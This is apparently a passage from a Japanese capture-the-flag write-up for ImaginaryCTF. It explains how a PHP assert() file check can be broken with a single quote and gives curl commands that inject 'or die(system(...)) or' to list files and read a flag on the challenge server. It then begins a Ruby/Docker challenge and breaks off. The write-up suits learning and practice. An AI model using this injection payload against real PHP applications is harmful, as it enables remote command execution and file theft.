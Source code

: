 ```php
    include($filepath);
  } else {
    echo 'File not found!';
  }
}

echo "</p>";
```

最初はパストラバーサルかと思いましたが、`assert("strpos('$file', '..') === false") or die("Invalid file!");`で引っかかるので、違いそうです。  

ただし、fileパラメータに`'`を含めると、スタックトレースが出力されるため何かができそうです。  
`'`で構文を崩せるため、systemコマンド等のスクリプトが実行できるようです。

また、今回の問題は、以下のサイトの例と同じような実装のため、そのままペイロードが使えそうでした。

<https://book.hacktricks.xyz/pentesting-web/file-inclusion#lfi-via-phps-assert>

少しだけペイロードを調整すると、フラグを取得できました。

```sh
# 'or die(system("ls /")) or'
curl -G http://journal.chal.imaginaryctf.org/ --data-urlencode "file='or die(system(\"ls /\")) or'"

# 'or die(system("cat /flag- .txt")) or'
curl -G http://journal.chal.imaginaryctf.org/ --data-urlencode "file='or die(system(\"cat /flag-cARdaInFg6dD10uWQQgm.txt\")) or'"
```

### crystals

100pts - 145 solves

docker-compose.ymlを見ると、hostnameにフラグが入っているようです。

- Dockerfile

```dockerfile
version: '3.3'
services:
  deployment:
    hostname: $FLAG
    build: .
    ports:
      - 10001:80
```

言語はRubyで書かれており、ソースコードを見る限りでは特に何かができそうな気配はありません。

- app.rb

```ruby
require 'sinatra'

# Route for the index page
get '/' do
  erb :index
end
```
